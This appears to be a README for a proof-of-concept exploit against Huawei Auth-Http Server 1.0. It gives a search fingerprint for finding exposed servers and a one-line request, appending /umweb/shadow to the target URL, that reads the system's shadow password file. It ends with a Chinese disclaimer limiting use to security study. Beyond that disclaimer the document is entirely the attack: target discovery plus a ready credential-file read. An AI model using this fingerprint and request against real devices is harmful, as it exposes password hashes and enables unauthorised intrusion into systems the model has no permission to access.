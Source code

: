 # -Auth-Http-Server-
华为Auth-Http Server⽂件读取漏洞验证脚本
# 指纹信息
server="Huawei Auth-Http Server 1.0"
# POC
URL + /umweb/shadow

文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！！！！！
